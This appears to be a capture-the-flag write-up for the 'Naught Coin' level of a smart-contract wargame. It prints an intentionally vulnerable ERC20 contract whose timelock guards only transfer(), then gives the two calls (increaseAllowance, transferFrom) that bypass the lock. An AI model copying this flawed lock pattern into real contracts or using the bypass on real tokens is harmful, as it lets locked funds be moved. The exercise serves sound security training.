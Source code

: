 ## 15. Naught coin

Goal for this exercise is:

- Complete this level by getting your token balance to 0


<br/>

Here is the contract code:
~~~
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/token/ERC20/ERC20.sol';

 contract NaughtCoin is ERC20 {

  // string public constant name = 'NaughtCoin';
  // string public constant symbol = '0x0';
  // uint public constant decimals = 18;
  uint public timeLock = now + 10 * 365 days;
  uint256 public INITIAL_SUPPLY;
  address public player;

  constructor(address _player) 
  ERC20('NaughtCoin', '0x0')
  public {
    player = _player;
    INITIAL_SUPPLY = 1000000 * (10**uint256(decimals()));
    // _totalSupply = INITIAL_SUPPLY;
    // _balances[player] = INITIAL_SUPPLY;
    _mint(player, INITIAL_SUPPLY);
    emit Transfer(address(0), player, INITIAL_SUPPLY);
  }
  
  function transfer(address _to, uint256 _value) override public lockTokens returns(bool) {
    super.transfer(_to, _value);
  }

  // Prevent the initial owner from transferring tokens until the timelock has passed
  modifier lockTokens() {
    if (msg.sender == player) {
      require(now > timeLock);
      _;
    } else {
     _;
    }
  } 
} 
~~~

To bypass `timeLock`

calls were:
 
 - `contract.increaseAllowance(player, "1000000000000000000000000")`
 - `contract.transferFrom(player, instance, "1000000000000000000000000")`
